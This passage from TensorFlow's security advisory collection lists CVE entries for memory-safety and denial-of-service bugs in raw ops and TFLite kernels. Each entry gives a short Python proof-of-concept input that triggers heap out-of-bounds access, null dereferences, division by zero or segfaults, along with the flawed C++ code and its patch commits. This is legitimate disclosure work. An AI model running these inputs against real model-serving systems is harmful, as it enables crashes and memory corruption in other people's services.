scale = tf.constant([], shape=[0], dtype=tf.float32)
offset = tf.constant([], shape=[0], dtype=tf.float32)
mean = tf.constant([], shape=[0], dtype=tf.float32)
variance = tf.constant([], shape=[0], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
  x=x, scale=scale, offset=offset, mean=mean, variance=variance,
  epsilon=epsilon, exponential_avg_factor=exponential_avg_factor,
  data_format=data_format, is_training=is_training)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/57d86e0db5d1365f19adcce848dfc1bf89fdd4c7/tensorflow/core/kernels/fused_batch_norm_op.cc)
fails to validate that `scale`, `offset`, `mean` and `variance` (the last two
only when required) all have the same number of elements as the number of
channels of `x`. This results in heap out of bounds reads when the buffers
backing these tensors are indexed past their boundary.

If the tensors are empty, the validation mentioned in the above paragraph would
also trigger and prevent the undefined behavior.

### Patches
We have patched the issue in GitHub commit
[6972f9dfe325636b3db4e0bc517ee22a159365c0](https://github.com/tensorflow/tensorflow/commit/6972f9dfe325636b3db4e0bc517ee22a159365c0).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-085: Division by zero in TFLite's implementation of `SpaceToBatchNd`

### CVE Number
CVE-2021-29597

### Impact
The implementation of the `SpaceToBatchNd` TFLite operator is [vulnerable to a
division by zero
error](https://github.com/tensorflow/tensorflow/blob/412c7d9bb8f8a762c5b266c9e73bfa165f29aac8/tensorflow/lite/kernels/space_to_batch_nd.cc#L82-L83):

```cc
TF_LITE_ENSURE_EQ(context, final_dim_size % block_shape[dim], 0);
output_size->data[dim + 1] = final_dim_size / block_shape[dim];
```

An attacker can craft a model such that one dimension of the `block` input is 0.
Hence, the corresponding value in `block_shape` is 0.

### Patches
We have patched the issue in GitHub commit
[6d36ba65577006affb272335b7c1abd829010708](https://github.com/tensorflow/tensorflow/commit/6d36ba65577006affb272335b7c1abd829010708).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-137: Heap OOB in boosted trees

### CVE Number
CVE-2021-37664

### Impact
An attacker can read from outside of bounds of heap allocated data by sending
specially crafted illegal arguments to
`BoostedTreesSparseCalculateBestFeatureSplit`:

```python
import tensorflow as tf

tf.raw_ops.BoostedTreesSparseCalculateBestFeatureSplit(
  node_id_range=[0,10],
  stats_summary_indices=[[1, 2, 3, 0x1000000]],
  stats_summary_values=[1.0],
  stats_summary_shape=[1,1,1,1],
  l1=l2=[1.0],
  tree_complexity=[0.5],
  min_node_weight=[1.0],
  logits_dimension=3,
  split_type='inequality')
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/boosted_trees/stats_ops.cc)
needs to validate that each value in `stats_summary_indices` is in range.

### Patches
We have patched the issue in GitHub commit
[e84c975313e8e8e38bb2ea118196369c45c51378](https://github.com/tensorflow/tensorflow/commit/e84c975313e8e8e38bb2ea118196369c45c51378).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-023: Memory corruption in `dlpack.to_dlpack`

### CVE Number
CVE-2020-15193

### Impact
The implementation of `dlpack.to_dlpack` can be made to use uninitialized
memory resulting in further memory corruption. This is because the pybind11
glue code [assumes that the argument is a
tensor](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/python/tfe_wrapper.cc#L1361):
```cc
    TFE_TensorHandle* thandle = EagerTensor_Handle(eager_tensor_pyobject_ptr);
```

However, there is nothing stopping users from passing in a Python object instead of a tensor.
```python
In [2]: tf.experimental.dlpack.to_dlpack([2])
==1720623==WARNING: MemorySanitizer: use-of-uninitialized-value
    #0 0x55b0ba5c410a in tensorflow::(anonymous namespace)::GetTensorFromHandle(TFE_TensorHandle*, TF_Status*) third_party/tensorflow/c/eager/dlpack.cc:46:7
    #1 0x55b0ba5c38f4 in tensorflow::TFE_HandleToDLPack(TFE_TensorHandle*, TF_Status*) third_party/tensorflow/c/eager/dlpack.cc:252:26
...
```

The uninitialized memory address is due to a
[`reinterpret_cast`](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/python/eager/pywrap_tensor.cc#L848-L850):
```cc
TFE_TensorHandle* EagerTensor_Handle(const PyObject* o) {
  return reinterpret_cast<const EagerTensor*>(o)->handle;
}
```

Since the `PyObject` is a Python object, not a TensorFlow Tensor, the cast to `EagerTensor` fails.

### Vulnerable Versions
TensorFlow 2.2.0, 2.3.0.

### Patches
We have patched the issue in
[22e07fb204386768e5bcbea563641ea11f96ceb8](https://github.com/tensorflow/tensorflow/commit/22e07fb204386768e5bcbea563641ea11f96ceb8)
and will release a patch release for all affected versions.

We recommend users to upgrade to TensorFlow 2.2.1 or 2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-034: Division by 0 in `QuantizedBiasAdd`

### CVE Number
CVE-2021-29546

### Impact
An attacker can trigger an integer division by zero undefined behavior in
`tf.raw_ops.QuantizedBiasAdd`:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.quint8)
bias = tf.constant([], shape=[0], dtype=tf.quint8)
min_input = tf.constant(-10.0, dtype=tf.float32)
max_input = tf.constant(-10.0, dtype=tf.float32)
min_bias = tf.constant(-10.0, dtype=tf.float32)
max_bias = tf.constant(-10.0, dtype=tf.float32)

tf.raw_ops.QuantizedBiasAdd(input=input_tensor, bias=bias, min_input=min_input,
                            max_input=max_input, min_bias=min_bias,
                            max_bias=max_bias, out_type=tf.qint32)
```

This is because the [implementation of the Eigen
kernel](https://github.com/tensorflow/tensorflow/blob/61bca8bd5ba8a68b2d97435ddfafcdf2b85672cd/tensorflow/core/kernels/quantization_utils.h#L812-L849)
does a division by the number of elements of the smaller input (based on shape)
without checking that this is not zero:

```cc
template <typename T1, typename T2, typename T3>
void QuantizedAddUsingEigen(const Eigen::ThreadPoolDevice& device,
                            const Tensor& input, float input_min,
                            float input_max, const Tensor& smaller_input,
                            float smaller_input_min, float smaller_input_max,
                            Tensor* output, float* output_min,
                            float* output_max) {
  ...
  const int64 input_element_count = input.NumElements();
  const int64 smaller_input_element_count = smaller_input.NumElements();
  ...
  bcast[0] = input_element_count / smaller_input_element_count;
  ...
}
```

This integral division by 0 is undefined behavior.

### Patches
We have patched the issue in GitHub commit
[67784700869470d65d5f2ef20aeb5e97c31673cb](https://github.com/tensorflow/tensorflow/commit/67784700869470d65d5f2ef20aeb5e97c31673cb).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-174: Access to invalid memory during shape inference in `Cudnn*` ops

### CVE Number
CVE-2021-41221

### Impact
The [shape inference code](https://github.com/tensorflow/tensorflow/blob/9ff27787893f76d6971dcd1552eb5270d254f31b/tensorflow/core/ops/cudnn_rnn_ops.cc) for the `Cudnn*` operations in TensorFlow can be tricked into accessing invalid memory, via a heap buffer overflow:

```python
import tensorflow as tf

@tf.function
def func():
  return tf.raw_ops.CudnnRNNV3(
    input=[0.1, 0.1],
    input_h=[0.5],
    input_c=[0.1, 0.1, 0.1],
    params=[0.5, 0.5],
    sequence_lengths=[-1, 0, 1])

func()
```

This occurs because the ranks of the `input`, `input_h` and `input_c` parameters are not validated, but code assumes they have certain values:

```cc
auto input_shape = c->input(0);
auto input_h_shape = c->input(1);
auto seq_length = c->Dim(input_shape, 0);
auto batch_size = c->Dim(input_shape, 1);  // assumes rank >= 2
auto num_units = c->Dim(input_h_shape, 2); // assumes rank >= 3
```

### Patches
We have patched the issue in GitHub commit [af5fcebb37c8b5d71c237f4e59c6477015c78ce6](https://github.com/tensorflow/tensorflow/commit/af5fcebb37c8b5d71c237f4e59c6477015c78ce6).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-061: Overflow/denial of service in `tf.raw_ops.ReverseSequence`

### CVE Number
CVE-2021-29575

### Impact
The implementation of `tf.raw_ops.ReverseSequence` allows for stack overflow
and/or `CHECK`-fail based denial of service.

```python
import tensorflow as tf

input = tf.zeros([1, 1, 1], dtype=tf.int32)
seq_lengths = tf.constant([0], shape=[1], dtype=tf.int32)

tf.raw_ops.ReverseSequence(
    input=input, seq_lengths=seq_lengths, seq_dim=-2, batch_dim=0)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/5b3b071975e01f0d250c928b2a8f901cd53b90a7/tensorflow/core/kernels/reverse_sequence_op.cc#L114-L118)
fails to validate that `seq_dim` and `batch_dim` arguments are valid.

Negative values for `seq_dim` can result in stack overflow or `CHECK`-failure,
depending on the version of Eigen code used to implement the operation. Similar
behavior can be exhibited by invalid values of `batch_dim`.

### Patches
We have patched the issue in GitHub commit
[ecf768cbe50cedc0a45ce1ee223146a3d3d26d23](https://github.com/tensorflow/tensorflow/commit/ecf768cbe50cedc0a45ce1ee223146a3d3d26d23).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-140: Reference binding to nullptr in `RaggedTensorToVariant`

### CVE Number
CVE-2021-37666

### Impact
An attacker can cause undefined behavior via binding a reference to null pointer
in `tf.raw_ops.RaggedTensorToVariant`:

```python
import tensorflow as tf

tf.raw_ops.RaggedTensorToVariant(
  rt_nested_splits=[],
  rt_dense_values=[1,2,3],
  batched_input=True)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/ragged_tensor_to_variant_op.cc#L129)
has an incomplete validation of the splits values, missing the case when the
argument would be empty.

### Patches
We have patched the issue in GitHub commit
[be7a4de6adfbd303ce08be4332554dff70362612](https://github.com/tensorflow/tensorflow/commit/be7a4de6adfbd303ce08be4332554dff70362612).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-027: Segfault in `tf.quantization.quantize_and_dequantize`

### CVE Number
CVE-2020-15265

### Impact
An attacker can pass an invalid `axis` value to
`tf.quantization.quantize_and_dequantize`:

```python
tf.quantization.quantize_and_dequantize(
    input=[2.5, 2.5], input_min=[0,0], input_max=[1,1], axis=10)
```

This results in accessing [a dimension outside the rank of the input
tensor](https://github.com/tensorflow/tensorflow/blob/0225022b725993bfc19b87a02a2faaad9a53bc17/tensorflow/core/kernels/quantize_and_dequantize_op.cc#L74)
in the C++ kernel implementation:
```cc
const int depth = (axis_ == -1) ? 1 : input.dim_size(axis_);
```

However, [`dim_size` only does a
`DCHECK`](https://github.com/tensorflow/tensorflow/blob/0225022b725993bfc19b87a02a2faaad9a53bc17/tensorflow/core/framework/tensor_shape.cc#L292-L307)
to validate the argument and then uses it to access the corresponding element of
an array:
```cc
int64 TensorShapeBase<Shape>::dim_size(int d) const {
  DCHECK_GE(d, 0);
  DCHECK_LT(d, dims());
  DoStuffWith(dims_[d]);
}
```

Since in normal builds, `DCHECK`-like macros are no-ops, this results in
segfault and access out of bounds of the array.

### Patches

We have patched the issue in
[eccb7ec454e6617738554a255d77f08e60ee0808](https://github.com/tensorflow/tensorflow/commit/eccb7ec454e6617738554a255d77f08e60ee0808)
and will release TensorFlow 2.4.0 containing the patch. TensorFlow nightly
packages after this commit will also have the issue resolved.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported in
[#42105](https://github.com/tensorflow/issues/42105).
## TFSA-2020-009: Segfault and data corruption caused by negative indexing in TFLite

### CVE Number
CVE-2020-15207

### Impact
To mimic Python's indexing with negative values, TFLite uses `ResolveAxis` to
convert negative values to positive indices. However, the only check that the
converted index is now valid is [only present in debug
builds](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/lite/kernels/internal/reference/reduce.h#L68-L72):
```cc
    // Handle negative index. A positive index 'p_idx' can be represented as a
    // negative index 'n_idx' as: n_idx = p_idx-num_dims
    // eg: For num_dims=3, [0, 1, 2] is the same as [-3, -2, -1]  */
    int current = axis[idx] < 0 ? (axis[idx] + num_dims) : axis[idx];
    TFLITE_DCHECK(current >= 0 && current < num_dims);
```

If the `DCHECK` does not trigger, then code execution moves ahead with a
negative index. This, in turn, results in accessing data out of bounds which
results in segfaults and/or data corruption.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in
[2d88f470dea2671b430884260f3626b1fe99830a](https://github.com/tensorflow/tensorflow/commit/2d88f470dea2671b430884260f3626b1fe99830a)
and will release patch releases for all versions between 1.15 and 2.3.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-188: Heap OOB read in `tf.raw_ops.SparseCountSparseOutput`

### CVE Number
CVE-2021-41210

### Impact
The [shape inference functions for `SparseCountSparseOutput`](https://github.com/tensorflow/tensorflow/blob/e0b6e58c328059829c3eb968136f17aa72b6c876/tensorflow/core/ops/count_ops.cc#L43-L50) can trigger a read outside of bounds of heap allocated array:

```python
import tensorflow as tf

@tf.function
def func():
  return tf.raw_ops.SparseCountSparseOutput(
    indices=[1],
    values=[[1]],
    dense_shape=[10],
    weights=[],
    binary_output= True)

func()
```

The function fails to check that the first input (i.e., `indices`) has rank 2:

```cc
  auto rank = c->Dim(c->input(0), 1);
```

### Patches
We have patched the issue in GitHub commit [701cfaca222a82afbeeb17496bd718baa65a67d2](https://github.com/tensorflow/tensorflow/commit/701cfaca222a82afbeeb17496bd718baa65a67d2).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-029: Heap buffer overflow in `StringNGrams`

### CVE Number
CVE-2021-29542

### Impact
An attacker can cause a heap buffer overflow by passing crafted inputs to
`tf.raw_ops.StringNGrams`:

```python
import tensorflow as tf

separator = b'\x02\x00'
ngram_widths = [7, 6, 11]
left_pad = b'\x7f\x7f\x7f\x7f\x7f'
right_pad = b'\x7f\x7f\x25\x5d\x53\x74'
pad_width = 50
preserve_short_sequences = True

l = ['', '', '', '', '', '', '', '', '', '', '']

data = tf.constant(l, shape=[11], dtype=tf.string)

l2 = [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 3]
data_splits = tf.constant(l2, shape=[116], dtype=tf.int64)

out = tf.raw_ops.StringNGrams(data=data,
    data_splits=data_splits, separator=separator,
    ngram_widths=ngram_widths, left_pad=left_pad,
    right_pad=right_pad, pad_width=pad_width,
    preserve_short_sequences=preserve_short_sequences)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/tensorflow/core/kernels/string_ngrams_op.cc#L171-L185)
fails to consider corner cases where input would be split in such a way that the
generated tokens should only contain padding elements:

```cc
for (int ngram_index = 0; ngram_index < num_ngrams; ++ngram_index) {
  int pad_width = get_pad_width(ngram_width);
  int left_padding = std::max(0, pad_width - ngram_index);
  int right_padding = std::max(0, pad_width - (num_ngrams - (ngram_index + 1)));
  int num_tokens = ngram_width - (left_padding + right_padding);
  int data_start_index = left_padding > 0 ? 0 : ngram_index - pad_width;
  ...
  tstring* ngram = &output[ngram_index];
  ngram->reserve(ngram_size);
  for (int n = 0; n < left_padding; ++n) {
    ngram->append(left_pad_);
    ngram->append(separator_);
  }
  for (int n = 0; n < num_tokens - 1; ++n) {
    ngram->append(data[data_start_index + n]);
    ngram->append(separator_);
  }
  ngram->append(data[data_start_index + num_tokens - 1]); // <<<
  for (int n = 0; n < right_padding; ++n) {
    ngram->append(separator_);
    ngram->append(right_pad_);
  }
  ...
}
```

If input is such that `num_tokens` is 0, then, for `data_start_index=0` (when
left padding is present), the marked line would result in reading `data[-1]`.

### Patches
We have patched the issue in GitHub commit
[ba424dd8f16f7110eea526a8086f1a155f14f22b](https://github.com/tensorflow/tensorflow/commit/ba424dd8f16f7110eea526a8086f1a155f14f22b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-098: Incomplete validation in `SparseReshape`

### CVE Number
CVE-2021-29611

### Impact
Incomplete validation in `SparseReshape` results in a denial of service based on
a `CHECK`-failure.

```python
import tensorflow as tf

input_indices = tf.constant(41, shape=[1, 1], dtype=tf.int64)
input_shape = tf.zeros([11], dtype=tf.int64)
new_shape = tf.zeros([1], dtype=tf.int64)

tf.raw_ops.SparseReshape(input_indices=input_indices,
    input_shape=input_shape,
    new_shape=new_shape)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/e87b51ce05c3eb172065a6ea5f48415854223285/tensorflow/core/kernels/sparse_reshape_op.cc#L40)
has no validation that the input arguments specify a valid sparse tensor.

### Patches
We have patched the issue in GitHub commit
[1d04d7d93f4ed3854abf75d6b712d72c3f70d6b6](https://github.com/tensorflow/tensorflow/commit/1d04d7d93f4ed3854abf75d6b712d72c3f70d6b6).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2 and TensorFlow 2.3.3, as these are the only affected
versions.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-149: Reference binding to nullptr in shape inference

### CVE Number
CVE-2021-37676

### Impact
An attacker can cause undefined behavior via binding a reference to null pointer
in `tf.raw_ops.SparseFillEmptyRows`:

```python
import tensorflow as tf

tf.compat.v1.disable_v2_behavior()
tf.raw_ops.SparseFillEmptyRows(
  indices = tf.constant([], shape=[0, 0], dtype=tf.int64),
  values = tf.constant([], shape=[0], dtype=tf.int64),
  dense_shape = tf.constant([], shape=[0], dtype=tf.int64),
  default_value = 0)
```

The shape inference
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/ops/sparse_ops.cc#L608-L634)
does not validate that the input arguments are not empty tensors.

### Patches
We have patched the issue in GitHub commit
[578e634b4f1c1c684d4b4294f9e5281b2133b3ed](https://github.com/tensorflow/tensorflow/commit/578e634b4f1c1c684d4b4294f9e5281b2133b3ed).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
## TFSA-2021-069: Segfault in `CTCBeamSearchDecoder`

### CVE Number
CVE-2021-29581

### Impact
Due to lack of validation in `tf.raw_ops.CTCBeamSearchDecoder`, an attacker can
trigger denial of service via segmentation faults:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[18, 8, 0], dtype=tf.float32)
sequence_length = tf.constant([11, -43, -92, 11, -89, -83, -35, -100],
shape=[8], dtype=tf.int32)
beam_width = 10
top_paths = 3
merge_repeated = True

tf.raw_ops.CTCBeamSearchDecoder(
  inputs=inputs, sequence_length=sequence_length, beam_width=beam_width,
  top_paths=top_paths, merge_repeated=merge_repeated)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/a74768f8e4efbda4def9f16ee7e13cf3922ac5f7/tensorflow/core/kernels/ctc_decoder_ops.cc#L68-L79)
fails to detect cases when the input tensor is empty and proceeds to read data
from a null buffer.

### Patches
We have patched the issue in GitHub commit
[b1b323042264740c398140da32e93fb9c2c9f33e](https://github.com/tensorflow/tensorflow/commit/b1b323042264740c398140da32e93fb9c2c9f33e).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-097: Incomplete validation in `SparseSparseMinimum`

### CVE Number
CVE-2021-29607

### Impact
Incomplete validation in `SparseAdd` results in allowing attackers to exploit
undefined behavior (dereferencing null pointers) as well as write outside of
bounds of heap allocated data:

```python
import tensorflow as tf

a_indices = tf.ones([45, 92], dtype=tf.int64)
a_values = tf.ones([45], dtype=tf.int64)
a_shape = tf.ones([1], dtype=tf.int64)
b_indices = tf.ones([1, 1], dtype=tf.int64)
b_values = tf.ones([1], dtype=tf.int64)
b_shape = tf.ones([1], dtype=tf.int64)

tf.raw_ops.SparseSparseMinimum(a_indices=a_indices,
    a_values=a_values,
    a_shape=a_shape,
    b_indices=b_indices,
    b_values=b_values,
    b_shape=b_shape)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/656e7673b14acd7835dc778867f84916c6d1cac2/tensorflow/core/kernels/sparse_sparse_binary_op_shared.cc)
has a large set of validation for the two sparse tensor inputs (6 tensors in
total), but does not validate that the tensors are not empty or that the second
dimension of `*_indices` matches the size of corresponding `*_shape`. This
allows attackers to send tensor triples that represent invalid sparse tensors to
abuse code assumptions that are not protected by validation.

### Patches
We have patched the issue in GitHub commit
[ba6822bd7b7324ba201a28b2f278c29a98edbef2](https://github.com/tensorflow/tensorflow/commit/ba6822bd7b7324ba201a28b2f278c29a98edbef2)
followed by GitHub commit
[f6fde895ef9c77d848061c0517f19d0ec2682f3a](https://github.com/tensorflow/tensorflow/commit/f6fde895ef9c77d848061c0517f19d0ec2682f3a).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-101: Incomplete validation in `tf.raw_ops.CTCLoss`

### CVE Number
CVE-2021-29613

### Impact
Incomplete validation in `tf.raw_ops.CTCLoss` allows an attacker to trigger an
OOB read from heap:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[10, 16, 0], dtype=tf.float32)
labels_indices = tf.constant([], shape=[8, 0], dtype=tf.int64)
labels_values = tf.constant([-100] * 8, shape=[8], dtype=tf.int32)
sequence_length = tf.constant([-100] * 16, shape=[16], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=True, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=True)
```

An attacker can also trigger a heap buffer overflow:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[7, 2, 0], dtype=tf.float32)
labels_indices = tf.constant([-100, -100], shape=[2, 1], dtype=tf.int64)
labels_values = tf.constant([-100, -100], shape=[2], dtype=tf.int32)
sequence_length = tf.constant([-100, -100], shape=[2], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=False, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=False)
```

Finally, an attacker can trigger a null pointer dereference:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[0, 2, 11], dtype=tf.float32)
labels_indices = tf.constant([], shape=[0, 2], dtype=tf.int64)
labels_values = tf.constant([], shape=[0], dtype=tf.int32)
sequence_length = tf.constant([-100, -100], shape=[2], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=False, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=False)
```

### Patches
We have patched the issue in GitHub commit
[14607c0707040d775e06b6817325640cb4b5864c](https://github.com/tensorflow/tensorflow/commit/14607c0707040d775e06b6817325640cb4b5864c)
followed by GitHub commit
[4504a081af71514bb1828048363e6540f797005b](https://github.com/tensorflow/tensorflow/commit/4504a081af71514bb1828048363e6540f797005b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-143: Crash in NMS ops caused by integer conversion to unsigned

### CVE Number
CVE-2021-37669

### Impact
An attacker can cause denial of service in applications serving models using
`tf.raw_ops.NonMaxSuppressionV5` by triggering a division by 0:

```python
import tensorflow as tf

tf.raw_ops.NonMaxSuppressionV5(
  boxes=[[0.1,0.1,0.1,0.1],[0.2,0.2,0.2,0.2],[0.3,0.3,0.3,0.3]],
  scores=[1.0,2.0,3.0],
  max_output_size=-1,
  iou_threshold=0.5,
  score_threshold=0.5,
  soft_nms_sigma=1.0,
  pad_to_max_output_size=True)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/image/non_max_suppression_op.cc#L170-L271)
uses a user controlled argument to resize a `std::vector`:

```cc
  const int output_size = max_output_size.scalar<int>()();
  // ...
  std::vector<int> selected;
  // ...
  if (pad_to_max_output_size) {
